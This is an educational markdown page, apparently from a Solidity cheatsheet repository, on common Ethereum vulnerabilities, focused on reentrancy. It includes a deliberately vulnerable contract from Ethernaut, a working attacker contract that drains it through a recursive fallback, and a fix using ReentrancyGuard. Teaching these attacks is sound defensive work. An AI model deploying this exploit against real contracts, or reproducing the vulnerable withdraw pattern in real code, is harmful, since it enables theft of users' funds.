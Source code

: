 # Common vulnerabilities in Ethereum and EVM based chains

Solidity cheatsheet is available in [solidity-cheatsheet](/README.md).

## Table of contents

- [Common vulnerabilities in Ethereum and EVM based chains](#common-vulnerabilities-in-ethereum-and-evm-based-chains)
  * [Table of contents](#table-of-contents)
  * [Motivation](#motivation)
  * [Reentrancy](#reentrancy)
    + [Examples](#reentrancy-example)
    + [How to prevent reentrancy attacks](#how-to-prevent-reentrancy-attacks)
  * [Arithmetic overflows and underflows](#arithmetic-overflows-and-underflows)

### Motivation

TBD

### Reentrancy

Computer scientists say that a procedure is re-entrant if its execution can be interrupted in the middle, initiated over (re-entered), and both runs can complete without any errors in execution. In the context of Ethereum smart contracts, re-entrancy can lead to serious vulnerabilities. 

The most famous example of this was the DAO Hack, where $70million worth of Ether was siphoned off.

### Reentrancy example
(example from [Ethernaut](https://ethernaut.openzeppelin.com))
```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

The above smart contract can be exploited using a simple reentrancy attack. Example below:
```solidity
pragma solidity ^0.6.0;

contract Exploiter {
    address private owner;
    address payable vault = <address of the exploited contract>;
    Reentrancy exploited = Reentrancy(<address of the exploited contract>);
    
    constructor() public payable{
        owner = msg.sender;
    }
    
    modifier onlyOwner {
        require(msg.sender == owner, "Only owner: operation not allowed");
        _;
    }
    
    function deposit() public onlyOwner {
        exploited.donate{value: 1 ether}(address(this));
    }
    
    function attack() public onlyOwner {
        exploited.withdraw(0.5 ether);
    }
    
    function selfkill() public onlyOwner {
        selfdestruct(payable(owner));
    }
    
    fallback() external payable {
        if ( vault.balance > 0 ){
            exploited.withdraw(0.5 ether);
        }
    }
}
```
### How to prevent Reentrancy attacks:

Use the [Openzeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts)'s ReentrancyGuard to block reentrant calls to your functions.

Example: (using the reentrancy guard for the vulnerable contract from above)

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/security/ReentrancyGuard.sol';

contract Reentrance is ReentrancyGuard{
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public nonReentrant{
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

Notice the inheritance `contract Reentrancy is ReentrancyGuard` and function definition `function withdraw(uint _amount) public nonReentrant`.

